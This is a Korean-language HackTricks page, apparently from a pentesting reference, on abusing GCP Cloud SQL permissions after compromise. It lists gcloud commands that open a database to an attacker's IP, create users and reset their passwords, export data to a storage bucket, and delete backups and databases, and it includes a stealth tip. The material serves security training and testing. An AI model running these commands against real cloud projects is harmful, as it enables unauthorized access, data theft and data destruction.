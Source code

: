# GCP - Cloud SQL 포스트 익스플로잇레이션

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## Cloud SQL

Cloud SQL에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

데이터베이스에 연결하려면 **데이터베이스 포트에 액세스**하고 **사용자 이름**과 **암호**를 알면 됩니다. IAM 요구 사항은 없습니다. 따라서, 데이터베이스가 공개 IP 주소를 가지고 있다고 가정하면, 허용된 네트워크를 업데이트하고 **자신의 IP 주소를 액세스할 수 있도록 허용**하는 것이 쉬운 방법입니다.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
**`--no-backup`**을 사용하여 데이터베이스의 백업을 방해할 수도 있습니다.

이 요구 사항들이 있기 때문에 **`cloudsql.instances.connect`** 및 **`cloudsql.instances.login`** 권한이 정확히 무엇을 위한 것인지 확실하지 않습니다. 알고 계시다면 PR을 보내주세요!

### `cloudsql.users.list`

데이터베이스의 모든 사용자 목록을 얻습니다:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

이 권한은 데이터베이스 내에서 **새 사용자를 생성하는 것을 허용**합니다:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

이 권한은 데이터베이스 내의 사용자를 **업데이트**할 수 있게 합니다. 예를 들어, 비밀번호를 변경할 수 있습니다:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

백업에는 **이전 민감한 정보**가 포함될 수 있으므로 확인하는 것이 흥미로울 수 있습니다.\
데이터베이스 내에서 **백업을 복원**하세요:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
### 더 은밀하게 작업하려면 현재 실행 중인 데이터베이스가 아닌 새 SQL 인스턴스를 생성하고 데이터를 복구하는 것이 좋습니다.

### `cloudsql.backupRuns.delete`

이 권한은 백업을 삭제할 수 있게 합니다.
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**데이터베이스를 내보내기**하여 클라우드 스토리지 버킷에서 액세스할 수 있습니다:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**클라우드 스토리지 버킷에서 데이터베이스를 가져옵니다** (덮어쓰기):
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

데이터베이스를 데이터베이스 인스턴스에서 삭제합니다:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 팁을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 저장소에 PR을 제출하세요.

</details>
{% endhint %}
